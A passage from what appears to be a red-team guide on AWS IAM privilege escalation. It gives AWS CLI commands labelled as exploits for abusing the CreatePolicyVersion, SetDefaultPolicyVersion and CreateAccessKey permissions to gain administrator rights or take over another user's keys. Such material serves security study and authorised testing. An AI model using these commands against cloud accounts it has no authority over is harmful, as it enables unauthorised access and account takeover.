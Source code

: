# AWS - IAM Privesc

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## IAM

For more info about IAM check:

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

### **`iam:CreatePolicyVersion`**

Grants the ability to create a new IAM policy version, bypassing the need for `iam:SetDefaultPolicyVersion` permission by using the `--set-as-default` flag. This enables defining custom permissions.

**Exploit Command:**

```bash
aws iam create-policy-version --policy-arn <target_policy_arn> \
    --policy-document file:///path/to/administrator/policy.json --set-as-default
```

**Impact:** Directly escalates privileges by allowing any action on any resource.

### **`iam:SetDefaultPolicyVersion`**

Allows changing the default version of an IAM policy to another existing version, potentially escalating privileges if the new version has more permissions.

**Bash Command:**

```bash
aws iam set-default-policy-version --policy-arn <target_policy_arn> --version-id v2
```

**Impact:** Indirect privilege escalation by enabling more permissions.

### **`iam:CreateAccessKey`**

Enables creating access key ID and secret access key for another user, leading to potential privilege escalation.

**Exploit:**

```bash
aws iam create-access-key --user-name <target_user>
```

**Impact:** Direct privilege escalation by assuming another user's extended permissions.

### **`iam:CreateLoginProfile` | `iam:UpdateLoginProfile`**
